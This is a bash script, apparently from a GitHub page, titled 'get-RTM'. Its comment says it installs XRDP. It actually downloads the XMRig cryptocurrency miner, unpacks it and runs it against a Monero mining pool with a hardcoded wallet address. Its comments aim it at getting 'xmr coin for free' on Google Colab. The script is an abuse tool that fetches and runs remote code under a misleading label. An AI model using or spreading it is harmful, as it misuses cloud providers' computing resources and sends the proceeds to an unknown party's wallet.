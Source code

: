 # get-RTM
#! /bin/bash
# Install XRDP
# Before get xmr coin for free
# Google Colab
sudo apt update
clear
sudo apt install screen
screen -R xmr
 
wget https://github.com/xmrig/xmrig/releases/download/v6.16.4/xmrig-6.16.4-bionic-x64.tar.gz
tar xvzf xmrig-6.16.4-bionic-x64.tar.gz
cd xmrig-6.16.4
./xmrig -o us-west.minexmr.com:443 -u 86YpJLSXK3873T9jLTstg1aa4pLNZqVnfJfTTUGMyiYMWdWh2Ld2zc8VSu9PnQSstUAef1mJ3beXy7Rmm1diGNhDJmmKWNu -k --tls --rig-id GC-US
